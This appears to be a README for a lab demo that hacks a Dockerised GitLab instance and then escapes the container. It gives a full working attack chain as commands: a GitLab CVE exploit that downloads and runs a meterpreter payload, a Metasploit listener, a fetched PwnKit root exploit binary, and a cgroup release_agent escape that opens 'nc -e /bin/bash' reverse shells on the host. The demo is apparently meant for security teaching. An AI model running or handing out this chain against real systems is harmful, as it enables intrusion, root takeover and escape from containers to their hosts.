


# Hack gitlab with container escape

- Demo consists of the follwoing parts:
  - Hack gitlab with CVE-2018-19571 + CVE-2018-19585 to get a reverse shell
  - get root rights within the container via CVE-2021-4034
  - abuse the misconfiguration --privileged of container



## Docker on Ubuntu 20.04 LTS

- i used the following vagrant machine

```
config.vm.define "ub2004" do |ub2004|
  ub2004.vm.provider "virtualbox" do |vb|
    vb.memory = "4096"
  end
  ub2004.vm.box = "ubuntu/focal64"
  ub2004.vm.box_version = "20211021.0.0"
  ub2004.vm.network :private_network, ip: "192.168.56.251"
end
```

- install the following stuff

```bash
apt update && apt remove -y netcat-openbsd && apt install -y netcat-traditional
```

- install docker

```bash
apt install -y ca-certificates curl gnupg lsb-release
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
apt update
apt install -y docker-ce docker-ce-cli containerd.io docker-compose
usermod -a -G docker vagrant
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
apt install -y uidmap
dockerd-rootless-setuptool.sh uninstall --force
```

- build the container

```bash
docker build -t gitlab-escape -f ./Dockerfile .
```

- start the GitLab application via docker-compose

```bash
docker-compose up
```

- create a new GitLab user (mondoo, mondoo.com)



- create the meterpreter

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=4242 -f elf > met
```

- start the metasploit framework

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- start the on liner web server

```bash
ruby -run -ehttpd . -p8001
```

- execute the GitLab exploit

```bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'curl -vk http://192.168.56.1:8001/met -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'chmod 777 /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c '/tmp/met'
```

- now you have a reverse meterpreter connection, type `shell` to get a bash

- get root within the GitLab container

```bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```

- to execute the container escape, at first start a new netcat listner

```bash
nc -lvnp 4243
```

- execute the following commands in your reverse root shell

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## kubernetes cluster

### some ideas

- just execute `ps aux` on the container host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c 'echo \$\$ > /tmp/cgrp/x/cgroup.procs'
```

- reverse shell with netcat

```bash
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
```

```bash
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)" > /tmp/cgrp/release_agent
```

- the pkexec compile exploit can be downloaded from

```
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

# Troubelshooting

- if you execute the following command and get `mount: /tmp/cgrp: permission denied.`

```bash
root@46646bb3e291:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
mondoo@mondoo:~$ sudo apt-get install -y uidmap
mondoo@mondoo:~$ dockerd-rootless-setuptool.sh uninstall
+ systemctl --user stop docker.service
Failed to stop docker.service: Unit docker.service not loaded.
+ systemctl --user disable docker.service
Failed to disable unit: Unit file docker.service does not exist.
[INFO] Uninstalled docker.service
[INFO] This uninstallation tool does NOT remove Docker binaries and data.
[INFO] To remove data, run: `/usr/bin/rootlesskit rm -rf /home/mondoo/.local/share/docker`
```

- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
